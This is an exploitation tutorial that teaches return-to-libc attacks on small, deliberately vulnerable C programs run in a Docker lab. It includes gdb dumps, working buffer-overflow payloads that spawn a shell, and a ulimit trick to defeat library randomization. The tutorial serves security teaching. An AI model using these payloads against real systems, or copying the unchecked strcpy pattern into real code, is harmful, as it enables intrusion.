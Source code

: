\newpage

## Return to `libc`

According to [4], a "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the NX bit feature (if present) and ridding the attacker of the need to inject their own code.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity4:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity4:latest
```

----

### Finding a vulnerability, a simple overflow

We'll be using the following program named `rlibc1.c`:
```C
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Let's a get a bit more of information about the program structure in memory:
(*compiled with `-fno-stack-protector -z execstack` flags*)

```
>>> disas vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x0804849d <+0>:	push   %ebp
   0x0804849e <+1>:	mov    %esp,%ebp
   0x080484a0 <+3>:	sub    $0x88,%esp
   0x080484a6 <+9>:	mov    0x8(%ebp),%eax
   0x080484a9 <+12>:	mov    %eax,0x4(%esp)
   0x080484ad <+16>:	lea    -0x6c(%ebp),%eax
   0x080484b0 <+19>:	mov    %eax,(%esp)
   0x080484b3 <+22>:	call   0x8048330 <strcpy@plt>
   0x080484b8 <+27>:	leave  
   0x080484b9 <+28>:	ret    
End of assembler dump.
>>> p not_called
$1 = {void ()} 0x804847d <not_called>
>>>
```

right before the call to `strcpy@plt`, the stack and registers looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────
            address buffer  address string
0xffffd750 [6c d7 ff ff] [ba d9 ff ff] 01 00 00 00 38 d9 ff f7 l...........8...
                                                buffer
0xffffd760 00 00 00 00 00 00 00 00 00 00 00 00 [00 00 00 00 ................
0xffffd770 03 00 00 00 09 00 00 00 3f 00 c0 03 00 00 00 00 .... ...?.......
0xffffd780 34 d8 ff ff a8 d7 ff ff a0 d7 ff ff 69 82 04 08 4...........i...
0xffffd790 38 d9 ff f7 00 00 00 00 c2 00 00 00 56 ad eb f7 8...........V...
0xffffd7a0 ff ff ff ff ce d7 ff ff 34 0c e3 f7 f3 72 e5 f7 ........4 ...r..
0xffffd7b0 00 00 00 00 00 00 c3 00 01 00 00 00 fd 82 04 08 ................
0xffffd7c0 a2 d9 ff ff 2f 00 00 00 00 a0 04 08 32 85 04 08] ..../.......2...
                                    ebp           ret
0xffffd7d0 02 00 00 00 94 d8 ff ff [f8 d7 ff ff] [d3 84 04 08] ................
            string
0xffffd7e0 [ba d9 ff ff] 00 d0 ff f7 eb 84 04 08 00 10 fd f7 ................
0xffffd7f0 e0 84 04 08 00 00 00 00 00 00 00 00 f3 da e3 f7 ................
0xffffd800 02 00 00 00 94 d8 ff ff a0 d8 ff ff 6a ae fe f7 ............j...
0xffffd810 02 00 00 00 94 d8 ff ff 34 d8 ff ff 1c a0 04 08 ........4.......
0xffffd820 3c 82 04 08 00 10 fd f7 00 00 00 00 00 00 00 00 <...............
0xffffd830 00 00 00 00 cd fd 26 9d dd 99 23 a5 00 00 00 00 ......&...#.....
0xffffd840 00 00 00 00 00 00 00 00 02 00 00 00 80 83 04 08 ................
─── Registers ────────────────────────────────────────────────────────────────────────────
   eax 0xffffd76c        ecx 0xa52399dd        edx 0xffffd824        ebx 0xf7fd1000    
   esp 0xffffd74c        ebp 0xffffd7d8        esi 0x00000000        edi 0x00000000    
   eip 0x08048330     eflags [ PF SF IF ]       cs 0x00000023         ss 0x0000002b    
    ds 0x0000002b         es 0x0000002b         fs 0x00000000         gs 0x00000063    
```
A different representation of the stack available at [3] is:
```
higher  | <arguments2>        |
address | <return address>    |
        | <old %ebp>          | <= %ebp
        | <0x6c bytes of      |
        |       ...           |
        |       buffer>       |
        | <arguments1>        |
lower   | <address of buffer> | <= %esp
```
Note that the starting of the stack has get filled with the parameters for the call to `strcpy` (`arguments2`).

Launching `./rlibc1_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"` we obtain:
```bash
Enjoy your shell!
root@44522cd9481b:~#
```

Of course, this is with the stack protection disabled, when compiling the program without disabling this protections, the program just crashes and we can't perform the buffer overflow.

```bash
root@3bf52dad8e1d:~# ./rlibc1 "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"
*** stack smashing detected ***: ./rlibc1 terminated
Aborted
```

### Playing with arguments

Let's play with a slightly different program named `rlibc2.c`:
```C
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```
We debug the program to obtain information about the `system` call and the `not_used` variable:
```
>>> disassemble not_called
Dump of assembler code for function not_called:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	sub    $0x18,%esp
   0x08048483 <+6>:	movl   $0x8048578,(%esp)
   0x0804848a <+13>:	call   0x8048340 <puts@plt>
   0x0804848f <+18>:	movl   $0x804858d,(%esp)
   0x08048496 <+25>:	call   0x8048350 <system@plt>
   0x0804849b <+30>:	leave  
   0x0804849c <+31>:	ret    
End of assembler dump.
>>> p not_used
$5 = 0x8048570 "/bin/sh"
```
The idea behind the exploit is to overflow the buffer with the `strcpy` call and modify the return address to point to the
 `system` call address with apprlibcriate parameters (not the default ones which will call `/bin/date`). The stack should look like:

 ```
| 0x8048570 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048350 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
 ```

```bash
root@3bf52dad8e1d:~# ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x50\x83\x04\x08" + "CCCC" + "\x70\x85\x04\x08"')"
#
```

(*note, while debugging and playing with the overflow, the following command allows to exit normally `gdb --args ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "\x78\xd7\xff\xff" + "\x50\x83\x04\x08" + "\xd3\x84\x04\x08" + "\x70\x85\x04\x08"')"`.*)


### Return to `libc` attack

From [3], the trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link the entire library into their address space at run time. This means that even if they never call system, the code for system (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in gdb:

```
>>> p system
$1 = {<text variable, no debug info>} 0x555be310 <__libc_system>
>>> find 0x555be310, +99999999, "/bin/sh"
0x556e0d4c
warning: Unable to access 16000 bytes of target memory at 0x5572ef54, halting search.
1 pattern found.
```
Now from gdb:
```
gdb --args rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```
we'll get a shell. This however does not happen when launched directly from the command line due to ASLR [5]. To bypass this:
```
ulimit -s unlimited # from[3], disable library randomization on 32-bit programs
./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```

### Resources

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] Hovav Shacham (2007), *The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)*. In Proceedings of the 14th ACM conference on Computer and communications security (CCS '07). ACM, New York, NY, USA, 552-561. DOI: https://doi.org/10.1145/1315245.1315313
- [3] Alex Reece (2013). *Introduction to return oriented programming (ROP)*. Retrieved from http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html.
- [4] Wikipedia. *Return-to-libc attack*. Retrieved from https://en.wikipedia.org/wiki/Return-to-libc_attack.
- [5] Wikipedia. *Address space layout randomization*. Retrieved from https://en.wikipedia.org/wiki/Address_space_layout_randomization.
